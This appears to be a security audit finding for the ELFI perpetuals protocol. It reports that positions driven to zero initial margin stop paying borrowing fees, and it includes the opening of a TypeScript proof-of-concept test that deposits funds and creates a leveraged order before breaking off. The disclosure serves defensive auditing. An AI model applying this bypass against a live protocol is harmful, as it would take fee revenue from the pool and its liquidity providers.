 When positions initial margin is "0" position no longer pays borrowing fees to pool. Completely bypassing it as we can see how the borrowing fee is calculated here:
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/FeeProcess.sol#L82-L85

**Another case from same root cause:**
Isolated accounts can close a LONG position that is in losses to secure their initial margin back, effectively escalating any losses that are occurred. 

**Coded PoC:**
```typescript
it("Increase leverage and achieve 0 margin", async function () {
		const usdcAm = precision.token(500_000, 6);
		await deposit(fixture, {
			account: user0,
			token: usdc,
			amount: usdcAm,
		});
		///////////////////////////////////////////////////////////////////////////
		///////////////////////////////////////////////////////////////////////////
		// Actual price is 25k
		const oracleBeginning = [
			{
				token: wbtcAddr,
				targetToken: ethers.ZeroAddress,
				minPrice: precision.price(25_000),
				maxPrice: precision.price(25_000),
			},
			{
				token: usdcAddr,
				targetToken: ethers.ZeroAddress,
				minPrice: precision.price(1),
				maxPrice: precision.price(1),
			},
		];
		///////////////////////////////////////////////////////////////////////////
		///////////////////////////////////////////////////////////////////////////
		const orderMargin = precision.token(25_000); // 25k 1 btc$
		const executionFee = precision.token(2, 15);
		const tx = await orderFacet.connect(user0).createOrderRequest(
			{
				symbol: btcUsd,
				orderSide: OrderSide.LONG,
				posSide: PositionSide.INCREASE,
				orderType: OrderType.MARKET,
				stopType: StopType.NONE,
				isCrossMargin: true,
				marginToken: wbtcAddr,
				qty: 0,
				leverage: precision.rate(2),
				triggerPrice: 0,
				acceptablePrice: 0,
				executionFee: executionFee,
				placeTime: 0,
				orderMargin: orderMargin,
				isNativeToken: false,
			},
			{
				value: executionFee,
			}
		);

		await tx.wait();

		const requestId = await marketFacet.getLastUuid(ORDER_ID_KEY);
```